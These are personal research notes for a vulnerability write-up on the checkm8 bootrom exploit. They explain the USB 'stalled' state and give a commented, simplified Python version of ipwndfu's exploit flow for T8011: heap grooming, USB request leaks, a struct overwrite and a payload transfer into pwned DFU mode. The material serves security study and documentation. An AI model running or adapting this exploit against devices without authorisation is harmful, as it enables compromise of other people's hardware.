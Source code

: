 # Notes

## Used to jot stuff down before I write the vulnerability write-up

### Stalled state
'Stalling' the device is not the same as a USB stall that is defined in the USB specification.

When the device is stalled in checkm8, I believe it is a state where it is 'stalled' because the host has not told it what to do. As a result, it stops operation because it has no idea how to operate without the host telling it what to do.

In ipwndfu, the device is stalled using `libusb1_async_ctrl_transfer(device, 0x80, 6, 0x304, 0x40A, 'A' * 0xC0, 0.00001`. The use of the very short timeout indicates that one is trying to cancel the request mid-way through the transfer. The bmRequestType of 0x80 indicates a device to host transfer. The wValue of 0x304 indicates the following: the wValueHigh value of 0x3 defines the type of descriptor to fetch (USB_DT_STRING) and the wValueLow value of 0x4 provides the index of the string descriptor (which will be the USB serial number here).

Simplified version of ipwndfu checkm8 for T8011
```python
# Initial setup of exploit
device = dfu.acquire_device()
start = time.time()
print(f'Found: {device.serial_number}')
if 'PWND:[' in device.serial_number:
    print('Device is already in pwned DFU Mode. Not executing exploit.')
    return
# Load device config and payload
payload, config = exploit_config(device.serial_number)

# Heap feng-shui

# Puts device into stalled state
stall(device)
for i in range(6):
    no_leak(device) # Don't leak zlp
usb_req_leak(device) # Leak usb request
no_leak(device) # Don't leak zlp

dfu.usb_reset(device)
dfu.release_device(device)

# Allocation and freeing of IO buffer without clearing global state
device = dfu.acquire_device()
device.serial_number
# Short timeout to cancel request mid-way through transfer
libusb1_async_ctrl_transfer(device, 0x21, 1, 0, 0, 'A' * 0x800, 0.0001)
# bRequest of 4 is DFU_CLRSTATUS
libusb1_no_error_ctrl_transfer(device, 0x21, 4, 0, 0, 0, 0)
dfu.release_device(device)

time.sleep(0.5)

device = dfu.acquire_device()

# These requests cause allocation to be in the hole created at heap feng-shui stage
usb_req_stall(device) # Stall usb request
usb_req_leak(device) # Leak usb request
# Overwrite the usb_device_io_request struct and USB descriptor objects in memory
libusb1_no_error_ctrl_transfer(device, 0, 0, 0, 0, config.overwrite, 100)
for i in range(0, len(payload), 0x800):
    # Transfer payload
    libusb1_no_error_ctrl_transfer(device, 0x21, 1, 0, 0, payload[i:i+0x800], 100)
dfu.usb_reset(device) # Reset to trigger image parsing
dfu.release_device(device)

device = dfu.acquire_device()
if 'PWND:[checkm8]' not in device.serial_number:
    print('ERROR: Exploit failed. Device did not enter pwned DFU Mode.')
    sys.exit(1)
print('Device is now in pwned DFU Mode.')
print('(%0.2f seconds)' % (time.time() - start))
dfu.release_device(device)
```